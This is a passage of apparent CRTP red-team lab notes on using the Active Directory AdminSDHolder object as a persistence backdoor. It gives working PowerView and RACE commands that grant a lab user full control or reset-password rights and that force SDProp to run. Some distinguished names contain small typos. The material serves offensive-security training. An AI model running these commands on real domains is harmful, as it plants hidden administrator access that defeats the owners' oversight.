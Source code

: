 ![Alt text](/assets/images/posts/crtp/14.png){: .align-center}






- With DA privileges (Full Control/Write permissions) on the AdminSDHolder object, it can be used as a **backdoor/persistence** mechanism by adding a user with Full Permissions (or other interesting permissions) to the AdminSDHolder object.
- In 60 minutes (when SDPROP runs), the user will be added with Full Control to the AC of groups like Domain Admins without actually being a member of it.


### How to do it

**Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA**:
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

**/Using ActiveDirectory Module and RACE toolkit**:

[RACE on GitHub](https://github.com/samratashok/RACE)

```powershell
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
```

**Other interesting permissions (ResetPassword, WriteMembers) for a user to the AdminSDHolder**:
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc	al' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

**Run SDProp manually using Invoke-SDPropagator.ps1 from Tools directory**:
```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```
